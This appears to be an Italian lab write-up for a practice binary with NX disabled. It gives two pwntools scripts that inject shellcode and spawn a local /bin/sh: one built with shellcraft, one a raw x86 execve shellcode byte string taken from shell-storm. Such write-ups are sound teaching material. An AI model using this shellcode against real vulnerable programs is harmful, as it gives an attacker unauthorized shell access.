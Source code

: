 # Flag
Not a CTF (basta accedere alla bash)

# Write-up
1. Analizzando il codice, possiamo vedere che l'unica cosa presente è un input
2. Eseguendo uno script Python per visualizzare elf.symbols, possiamo vedere che NX è disabilitato (quindi possiamo injectare dei byte per aprire la shellcode) (possiamo vedere i controlli anche mediante il comando ``checksec`` per GEF)
3. Abbiamo due modi per injectare shellcode <br>
    ```python
    from pwn import *

    with process("./vuln") as r:
        inp=asm(shellcraft.sh())
        r.sendline(inp)
        r.interactive()
    ```
4. Oppure
    ```python
    from pwn import *

    with process("./vuln") as r:
        inp='\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68'
        #La sequenza è stata presa dal sito che riportiamo alla fine della spiegazione
        r.sendline(inp)
        r.interactive()
    ```
5. Eseguire uno dei due script e si avrà la possibilità di navigare tramite la bash

<hr>

[Shellcode](http://shell-storm.org/shellcode/index.html)<br>
[Linux/x86 obfuscated execv /bin/sh by Russell Willis](http://shell-storm.org/shellcode/files/shellcode-851.html)
